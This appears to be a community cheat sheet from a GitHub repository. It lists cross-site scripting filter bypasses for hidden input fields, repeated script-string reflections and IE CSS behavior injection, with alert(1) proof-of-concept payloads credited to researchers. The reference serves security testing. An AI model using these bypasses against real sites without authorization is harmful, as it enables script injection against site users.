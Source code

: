 # About XSS Problems

This is a public cheat sheet to help you solve problems you might encounter while trying to XSS a target, you can contribute by telling me your problems or solutions. If you find a solution, make sure they work in one of the following browsers: Chrome, Firefox, IE/Edge (IE version 9 or above), Safari and Opera. This Cheat Sheet is never finished, so I might add more over time.

Extra solutions to solved problems are also welcome.

---

# Problems and Solutions

## Hidden Input fields

📝 **Problem**

```
<input type="hidden" value="[injection-point]">
```

Greater than (>) and Less than (<) are properly encoded, you can only add attributes to the input tag.

💡 **Solution(s):**

```
'"/autofocus/onfocus='alert(1)'x=
```

**Note:**

This only works if the input element is in the following form.

```
<input value="[injection-point]" type="hidden">
```

It's not very common but it does happen.

By [me](https://twitter.com/Karel_Origin).

💡

```
'"/onclick='alert(1)'/accesskey='X'
```

**Note:**

Requires you to press ALT+SHIFT+X on Windows/Linux or CTRL+ALT+X on OS X. (Only works in Firefox.)

By [PortSwigger](http://blog.portswigger.net/2015/11/xss-in-hidden-input-fields.html).

---

## Multiple reflections in a script context

📝 **Problem**

```
x = "[injection-point]"
y = "[injection-point]"
```

Double quotes are properly encoded, it's only possible to escape the string with %0A and escape quotes using \

**Note:**

The same parameter is used for both injection points.

Injecting "1" in parameter "x" will result in:

```
x = "1"
y = "1"
```

💡 **Solution(s):**

```1";alert(1);//</script><!--```

---

## CSS Injection to XSS

📝 **Problem**

```
<input style="[injection-point]">
```

**Note:**

Double quotes are properly encoded.


💡 **Solution(s):**

```
behavior: url(xss.htc)
```

Contents xss.htc:
```
<script>alert(1)</script>
```

**Note:**

xss.htc needs to be served as `text/x-component` and only works in docmode 9 which makes this payload pretty useless

💡

```
behavior: url(xss.txt)
```

Contents xss.txt:
```
<scriptlet>  
    <implements type="behavior"/>
    <script>alert(1)</script>
</scriptlet>  
```

**Note:**

This doesn't work Cross-Domain, which means that you need to be able to upload a file to the current domain. The file needs to be served with one of the following Content-Types.

1. text/html
1. text/plain
1. image/*
1. video/mpeg
1. video/avi

This technique won't work if the site uses the `X-Content-Type-Options: nosniff` or `Content-Disposition: attachment` header.

By [Filedescriptor](http://blog.innerht.ml/cascading-style-scripting/).

---

# Contribute

That's it! feel free to [submit](https://github.com/karelorigin/XSS-Problems/issues/new) an issue and help others with their XSS problems.
